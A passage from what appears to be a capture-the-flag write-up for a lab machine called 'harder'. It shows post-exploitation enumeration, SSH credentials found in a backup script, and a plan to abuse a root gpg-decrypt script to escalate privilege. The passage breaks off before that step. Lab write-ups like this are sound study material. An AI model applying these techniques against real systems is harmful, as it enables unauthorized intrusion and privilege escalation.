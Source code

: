 ```
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=q9hkku720p6bmkt998gcipo1sd
Connection: close
X-Forwarded-For: 10.10.10.100
```
And we have a place to execute the shell commands! Let's enumerate the system! 


In the user(evs)'s directory we get our user flag and now we need to find a way to esclate priviledge. Let do some more enumeration and search for vulnerable stuff.

We use find command to search for the stuff that belongs to the user `www` and we got some data and the most interesting was,
```shell
$ find / -user www
...
/etc/periodic/15min/evs-backup.sh
...
```
And we get the ssh cred from viewing that file!!! Awesome!!
```
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"

```
We can now ssh on `pwd.harder.local` to get access to the machine!
<br>
While enumerating the machine, I used `find` command to get `sh` files and one of them looks intersting,
```shell
harder:~$ find / -type f -name "*.sh" 2> /dev/null
/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh           <---
/etc/periodic/15min/evs-backup.sh

harder:~$ ls -la /usr/local/bin/run-crypted.sh
-rwxr-x---    1 root     evs            412 Jul  7 20:58 /usr/local/bin/run-crypted.sh
harder:~$ 
harder:~$ cat /usr/local/bin/run-crypted.sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi

```
After reading this script, I think there should be gpg key somewhere and we need to find it, in order to run commands as root.
```shell 
harder:~$ find / -name root@harder.local* 2> /dev/null
/var/backup/root@harder.local.pub
```
We have the key, what we need to do now is import the gpg key, so that we can encrypt the command and run through root.
```shell
```